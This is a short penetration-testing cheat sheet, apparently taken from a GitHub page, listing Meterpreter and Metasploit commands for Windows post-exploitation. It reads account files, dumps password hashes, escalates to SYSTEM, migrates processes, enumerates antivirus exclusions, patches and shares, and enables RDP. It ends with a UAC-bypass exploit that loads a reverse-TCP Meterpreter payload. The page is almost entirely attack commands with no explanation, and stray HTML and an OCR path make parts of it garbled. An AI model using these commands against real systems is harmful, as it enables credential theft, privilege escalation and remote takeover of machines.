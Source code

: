 # Check Users
cat /etc/passwd   #Users in linux  
List drives on the machine

<strong>fsutil fsinfo drives     #Check Drives
</strong></code></pre>

#### HTTP/HFS

```bash
# Meterpreter
sysinfo
getuid
getsystem
getuid
getprivs
hashdump
show_mount
ps
migrate

# msfconsole
use post/windows/manage/migrate
use post/windows/gather/win_privs #CHECK UAC/Privileges
use post/windows/gather/enum_logged_on_users
use post/windows/gather/checkvm
use post/windows/gather/enum_applications
use post/windows/gather/enum_av_excluded
use post/windows/gather/enum_computers
use post/windows/gather/enum_patches
use post/windows/gather/enum_shares
use post/windows/manage/enable_rdp
set SESSION 1

loot
```

#### UAC

```bash
# Meterpreter
shell

# Win CMD
net users
net localgroup administrators

# Bypass UAC
background
sessions
use exploit/windows/local/bypassuac_injection BYPASS UAC (Background the session first)
set payload windows/x64/meterpreter/reverse_tcp
set SESSION 1
set LPORT <LOCAL_PORT>
set TARGET Windows\ x64

getsystem
hashdump
```
